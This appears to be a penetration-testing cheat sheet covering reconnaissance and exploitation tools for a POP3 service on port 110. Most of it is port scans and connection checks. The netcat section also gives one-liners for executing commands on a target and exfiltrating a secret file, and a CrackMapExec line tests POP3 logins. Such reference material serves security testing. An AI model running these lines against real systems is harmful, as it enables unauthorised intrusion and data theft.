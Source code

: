 ## Exploitation Tools

### [[Metasploit]]

### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 110"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 110,995
    ```

### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 110
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 110 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 110
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 110 < secret_data.txt
    ```

### [[SoCat Cheat Sheet]]
- **Socat TCP Connect:** Simple test to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:110
	```

### [[HPing3 Cheat Sheet]]
- **Send UDP Packet:** Send a single UDP packet to the service.
    ```bash
    hping3 -2 <target_ip> -p 110 -c 1
    ```

### [[NetExec]]
### [[CrackMapExec]]
- **Connect via username/password:**
	```bash
	crackmapexec pop3 <target_ip> -u <username> -p <password>
	```
